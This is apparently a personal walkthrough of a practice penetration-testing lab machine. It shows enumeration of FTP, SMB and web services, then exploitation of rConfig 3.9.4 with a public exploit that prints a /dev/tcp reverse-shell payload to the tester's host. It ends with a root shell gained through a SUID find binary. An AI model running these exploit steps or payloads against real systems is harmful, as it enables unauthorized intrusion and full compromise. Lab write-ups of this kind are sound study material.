



As usual, I started by performing three Nmap scans on this machine. First, a full port scan to identify all open ports; second, a service version detection and default script scan on the discovered ports; and finally, a scan of the top 10 UDP ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 02:48 UTC
Nmap scan report for 192.168.107.57
Host is up (0.049s latency).
Not shown: 65527 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3306/tcp open mysql
8081/tcp open blackice-icecap
Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 21,22,80,111,139,445,3306,8081
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 02:51 UTC
Nmap scan report for 192.168.107.57
Host is up (0.050s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.2
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:192.168.45.229
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 3
| vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
| 2048 a2:ec:75:8d:86:9b:a3:0b:d3:b6:2f:64:04:f9:fd:25 (RSA)
| 256 b6:d2:fd:bb:08:9a:35:02:7b:33:e3:72:5d:dc:64:82 (ECDSA)
|_ 256 08:95:d6:60:52:17:3d:03:e4:7d:90:fd:b2:ed:44:86 (ED25519)
80/tcp open http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: Apache HTTP Server Test Page powered by CentOS
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
|_ 100000 3,4 111/udp6 rpcbind
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp open netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp open mysql MariaDB 10.3.23 or earlier (unauthorized)
8081/tcp open http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
|_http-title: 400 Bad Request
Service Info: Host: QUACKERJACK; OS: Unix
Host script results:
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.10.4)
| Computer name: quackerjack
| NetBIOS computer name: QUACKERJACK\\x00
| Domain name: \\x00
| FQDN: quackerjack
|_ System time: 2026-02-03T21:51:36-05:00
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2026-02-04T02:51:34
|_ start_date: N/A
|_clock-skew: mean: 1h40m06s, deviation: 2h53m23s, median: 0s
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 67.91 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 02:53 UTC
Nmap scan report for 192.168.107.57
Host is up (0.048s latency).
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
123/udp open|filtered ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp open|filtered microsoft-ds
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.84 seconds
The FTP server allowed anonymous login, but it hung at ‘Entering Extended Passive mode’.
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP
Connected to 192.168.107.57.
220 (vsFTPd 3.0.2)
Name (192.168.107.57:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||23990|).
Nmap smb-enum-shares scripts revealed the existence of IPC$ and print$ shares, and that anonymous access has READ and WRITE permissions on IPC$ .
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 03:04 UTC
Nmap scan report for 192.168.107.57
Host is up (0.049s latency).
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
Service Info: Host: QUACKERJACK
Host script results:
|_smb-vuln-ms10-061: false
|_smb-vuln-ms10-054: false
| smb-enum-shares:
| account_used: <blank>
| \\\\192.168.107.57\\IPC$:
| Type: STYPE_IPC_HIDDEN
| Comment: IPC Service (Samba 4.10.4)
| Users: 1
| Max Users: <unlimited>
| Path: C:\\tmp
| Anonymous access: READ/WRITE
| \\\\192.168.107.57\\print$:
| Type: STYPE_DISKTREE
| Comment: Printer Drivers
| Users: 0
| Max Users: <unlimited>
| Path: C:\\var\\lib\\samba\\drivers
|_ Anonymous access: <none>
| smb-vuln-regsvc-dos:
| VULNERABLE:
| Service regsvc in Microsoft Windows systems vulnerable to denial of service
| State: VULNERABLE
| The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
| pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
| while working on smb-enum-sessions.
|_
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 74.44 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
Anonymous login successful
Sharename Type Comment
--------- ---- -------
print$ Disk Printer Drivers
IPC$ IPC IPC Service (Samba 4.10.4)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful
Server Comment
--------- -------
Workgroup Master
--------- -------
SAMBA
I tried connecting to both shares using smbclient, but I was unable to connect to the print$ share and the IPC$ share was empty.
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/print$
Password for [WORKGROUP\\kali]:
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/IPC$
Password for [WORKGROUP\\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \\> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \\*
I also tried a Null Session with rpcclient , but it failed.
┌──(kali㉿kali)-[~/Desktop]
└─$ rpcclient -U "" -N $IP
rpcclient $>
Whenever I see HTTP services running, I run Nmap http-enum scripts first for quick wins, but this time it didn’t yield much information.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP --script=http-enum -sV -p 80,8081
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-04 03:03 UTC
Stats: 0:00:49 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.91% done; ETC: 03:04 (0:00:00 remaining)
Nmap scan report for 192.168.107.57
Host is up (0.048s latency).
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
| http-enum:
|_ /icons/: Potentially interesting folder w/ directory listing
8081/tcp open http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 231.21 seconds
The page on port 80 was just a test page, and directory brute forcing didn’t reveal any useful information either.

┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u <http://$IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: <http://192.168.107.57>
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd (Status: 403) [Size: 211]
/.htaccess (Status: 403) [Size: 211]
/.hta (Status: 403) [Size: 206]
/cgi-bin/ (Status: 403) [Size: 210]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
Moving on to port 8081, HTTPS is required.

The service on port 8081 is actually rConfig v3.9.4

Looking up the service version on Searchsploit revealed RCE vulnerabilities.
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit rconfig 3.9.4
-------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
rConfig 3.9 - 'searchColumn' SQL Injection | php/webapps/48208.py
rConfig 3.9.4 - 'search.crud.php' Remote Command Injection | php/webapps/48241.py
rConfig 3.9.4 - 'searchField' Unauthenticated Root Remote Code Execution | php/webapps/48261.py
Rconfig 3.x - Chained Remote Code Execution (Metasploit) | linux/remote/48223.rb
-------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
I modified the code, executed it and successfully obtained a reverse shell as apache user.
┌──(venv)─(kali㉿kali)-[~/Desktop]
└─$ python3 48878.py
Connecting to: <https://192.168.107.57:8081/>
Connect back is set to: sh -i >& /dev/tcp/192.168.45.229/8081 0>&1, please launch 'nc -lv 9001'
Version is rConfig Version 3.9.4 it may not be vulnerable
Remote Code Execution + Auth bypass rConfig 3.9.5 by Daniel Monzón
In the last stage if your payload is a reverse shell, the exploit may not launch the success message, but check your netcat ;)
Note: preferred method for auth bypass is 1, because it is less 'invasive'
Note2: preferred method for RCE is 2, as it does not need you to know if, for example, netcat has been installed in the target machine
Choose method for authentication bypass:
1) User creation
2) User enumeration + User edit
Method>1
(+) User test created
Choose method for RCE:
1) Unsafe call to exec()
2) Template edit
Method>1
(+) Log in as test completed
apache┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 8081
[+] Listening for reverse shells on 0.0.0.0:8081 → 127.0.0.1 • 192.168.136.128 • 172.20.0.1 • 172.17.0.1 • 192.168.45.229
➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from quackerjack~192.168.107.57-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /home/kali/.penelope/sessions/quackerjack~192.168.107.57-Linux-x86_64/2026_02_04-04_18_31-197.log 📜
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
bash-4.2$ whoami
apache
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$
bash-4.2$ cd /home
bash-4.2$ ls -la
total 4
drwxr-xr-x. 3 root root 21 Jun 22 2020 .
dr-xr-xr-x. 17 root root 244 Jun 25 2020 ..
drwxr-xr-x. 15 apache root 4096 Jul 9 2020 rconfig
bash-4.2$ cd rconfig
bash-4.2$ ls -la
total 68
drwxr-xr-x. 15 apache root 4096 Jul 9 2020 .
drwxr-xr-x. 3 root root 21 Jun 22 2020 ..
-rw-r--r--. 1 apache root 109 Feb 25 2020 .gitignore
-rw-r--r--. 1 apache root 35122 Feb 25 2020 LICENSE
-rw-r--r--. 1 apache root 2405 Feb 25 2020 README.md
drwxr-xr-x. 3 apache root 39 Feb 25 2020 backups
drwxr-xr-x. 4 apache root 4096 Feb 25 2020 classes
-rw-r--r--. 1 apache root 65 Feb 25 2020 composer.json
-rw-r--r--. 1 apache root 4040 Feb 25 2020 composer.lock
drwxr-xr-x. 2 apache root 71 Jun 22 2020 config
drwxr-xr-x. 2 apache root 24 Feb 25 2020 cronfeed
drwxr-xr-x. 2 apache root 24 Feb 25 2020 data
drwxr-xr-x. 2 apache root 230 Feb 25 2020 lib
-rw-r--r-- 1 apache root 33 Feb 3 21:48 local.txt
drwxr-xr-x. 6 apache root 180 Feb 3 23:03 logs
drwxr-xr-x. 6 apache root 106 Feb 25 2020 reports
drwxr-xr-x. 3 apache root 150 Feb 25 2020 templates
drwxr-xr-x. 2 apache root 6 Jun 22 2020 tmp
drwxr-xr-x. 2 apache root 27 Feb 25 2020 updates
drwxr-xr-x. 4 apache root 59 Feb 25 2020 vendor
drwxr-xr-x. 8 apache root 4096 Feb 3 23:03 www
Found local.txt
bash-4.2$ cat local.txt
066...
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
During manual enumeration, I found that the find binary has the SUID bit set, which is very unusual. I referred to GTFOBins to exploit it and successfully gained a root shell.
bash-4.2$ find / -type f -perm -4000 -ls 2>/dev/null
12596477 196 -rwsr-xr-x 1 root root 199304 Oct 30 2018 /usr/bin/find
12845841 76 -rwsr-xr-x 1 root root 73888 Aug 8 2019 /usr/bin/chage
12845842 80 -rwsr-xr-x 1 root root 78408 Aug 8 2019 /usr/bin/gpasswd
12897242 24 -rws--x--x 1 root root 23968 Apr 1 2020 /usr/bin/chfn
12897245 24 -rws--x--x 1 root root 23880 Apr 1 2020 /usr/bin/chsh
12845845 44 -rwsr-xr-x 1 root root 41936 Aug 8 2019 /usr/bin/newgrp
12897294 32 -rwsr-xr-x 1 root root 32128 Apr 1 2020 /usr/bin/su
13284201 144 ---s--x--x 1 root root 147336 Apr 1 2020 /usr/bin/sudo
12897278 44 -rwsr-xr-x 1 root root 44264 Apr 1 2020 /usr/bin/mount
12897298 32 -rwsr-xr-x 1 root root 31984 Apr 1 2020 /usr/bin/umount
12982629 60 -rwsr-xr-x 1 root root 57656 Aug 8 2019 /usr/bin/crontab
12944638 24 -rwsr-xr-x 1 root root 23576 Apr 1 2020 /usr/bin/pkexec
12862194 28 -rwsr-xr-x 1 root root 27856 Mar 31 2020 /usr/bin/passwd
13299021 32 -rwsr-xr-x 1 root root 32096 Oct 30 2018 /usr/bin/fusermount
354814 36 -rwsr-xr-x 1 root root 36272 Apr 1 2020 /usr/sbin/unix_chkpwd
354810 12 -rwsr-xr-x 1 root root 11232 Apr 1 2020 /usr/sbin/pam_timestamp_check
433482 12 -rwsr-xr-x 1 root root 11296 Mar 31 2020 /usr/sbin/usernetctl
4529180 16 -rwsr-xr-x 1 root root 15432 Apr 1 2020 /usr/lib/polkit-1/polkit-agent-helper-1
4528919 60 -rwsr-x--- 1 root dbus 58024 Mar 14 2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper
sh-4.2$ find . -exec /bin/sh -p \\; -quit
sh-4.2# whoami
root
Found proof.txt
sh-4.2# cat proof.txt
bd4...